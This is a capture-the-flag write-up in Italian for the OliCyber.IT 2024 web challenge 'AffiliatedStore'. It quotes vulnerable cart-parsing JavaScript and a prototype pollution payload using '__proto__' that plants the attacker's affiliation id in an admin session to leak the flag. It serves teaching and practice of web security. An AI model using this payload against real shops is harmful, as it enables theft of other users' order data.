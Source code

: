 # OliCyber.IT 2024 - Finale Nazionale

## [web] AffiliatedStore (8 risoluzioni)

Stiamo lavorando a questo nuovo negozio online con un programma di affiliazione complesso. Siamo ancora al lavoro e la parte dei pagamenti non è ancora completa. Nel frattempo, puoi aiutarci a testare questa parte per vulnerabilità?

Sito: [http://affiliatedstore.challs.olicyber.it](http://affiliatedstore.challs.olicyber.it)

Author: Lorenzo Leonardini <@pianka>

## Panoramica

La sfida presenta un negozio online. Durante la registrazione possiamo specificare un id di affiliazione. Se qualcuno effettua un acquisto dopo essersi registrato con il nostro id, possiamo vedere i dettagli dell'ordine nel nostro pannello di controllo.

C'è una funzionalità di feedback che consente di condividere il nostro carrello con un amministratore. Lo stato del carrello viene memorizzato nei parametri dell'URL. Quando inviamo un carrello per il feedback, l'amministratore inserisce la flag nel messaggio dell'ordine e procede con l'acquisto.

## Soluzione

Il nostro obiettivo è leggere la flag digitata nel messaggio personalizzato dell'ordine. Se ti registri con un id di affiliazione, tutti i tuoi messaggi personalizzati diventano disponibili all'utente che ti ha fornito l'id di affiliazione. Quindi vogliamo che l'amministratore abbia il nostro id di affiliazione.

Curiosamente, l'id di affiliazione è memorizzato in sessionStorage.

La vulnerabilità risiede nella pagina del carrello, dove il seguente codice è vulnerabile a prototype pollution:

```js
const cart = JSON.parse(atob(new URL(location.href).searchParams.get('cart')));

const products = {};

cart.forEach((el) => {
	const product = products[el.id] || (products[el.id] = {});

	for (const [key, value] of Object.entries(el)) {
		if (key === 'id') continue;
		product[key] = DOMPurify.sanitize(value);
	}
});
```

se aggiungiamo al carrello un elemento con il seguente formato:

```json
{
	"id": "__proto__",
	"affiliation": "[our id]"
}
```

possiamo utilizzare la prototype pollution per leggere un valore a piacere da sessionStorage:

```js
fetch('/api/order', {
	method: 'POST',
	headers: {
		'Content-Type': 'application/json'
	},
	body: JSON.stringify({
		cart: cart,
		message: customMessage.value,
		affiliation: sessionStorage.affiliation
	})
});
```
